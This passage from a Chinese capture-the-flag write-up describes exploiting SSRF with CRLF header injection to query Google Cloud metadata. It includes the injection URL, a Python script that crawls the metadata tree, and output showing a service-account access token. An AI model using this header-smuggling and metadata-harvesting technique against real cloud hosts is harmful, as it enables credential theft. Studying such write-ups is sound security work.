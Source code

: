 继续访问下一级目录发现500了

阅读[文档](https://cloud.google.com/compute/docs/storing-retrieving-metadata#querying)得知要加入`Metadata-Flavor: Google`请求头

python的urlllib库之前爆出存在着CRLF的漏洞，利用这个来绕过

`"http://35.194.175.80:8000/query?site=http://metadata.google.internal/PATH/%20HTTP/1.1%0d%0aMetadata-Flavor:%20Google%0d%0apadding:"`

写个脚本读取所有数据：

```python
import requests

def req(parent,path):
    burp0_url = "http://35.194.175.80:8000/query?site=http://metadata.google.internal"+parent+path+"%20HTTP/1.1%0d%0aMetadata-Flavor:%20Google%0d%0apadding:"
    return requests.get(burp0_url)


def getInfo(parent,path):
    r = req(parent,path)
    if r.status_code == 500:
        return
    print(parent+path)
    print(r.text)
    print("----------------------------------------------------------------------")
    if not path.endswith("/"):
        return
    child = r.text.splitlines()
    parent=parent+path
    for i in child:
        
        getInfo(parent,i)

getInfo(parent="",path="/")
```



得到以下数据（只显示对题目有用的数据）

```
...
----------------------------------------------------------------------
/computeMetadata/v1/project/project-id
balsn-ctf-2020-tpc
------------------------------------------------------------------
/computeMetadata/v1/instance/service-accounts/default/token
{"access_token":"ya29.c.KpcB5QdRi_ofZUDT6YcnsZrXwex0ocEfddkf1cL9qgsBVUuJI6xm7X__zkSxCc4jbw35HGJ2ZSbVUQljIKqOWbe_-q33It_9ip0sO15lH8usKPuj1I-vg2BHQeyizyWloiDf2vlRbL0EiZNaiKa3_tGFFEbxt9JrmsfYxWoN3_VOn3cqTbjNyEdj3-Xr3oQUiD0ESz0H2NS4Lg","expires_in":3147,"token_type":"Bearer"}
----------------------------------------------------------------------
/computeMetadata/v1/instance/service-accounts/default/scopes
https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
https://www.googleapis.com/auth/servicecontrol
https://www.googleapis.com/auth/service.management.readonly
https://www.googleapis.com/auth/trace.append
----------------------------------------------------------------------
...
```
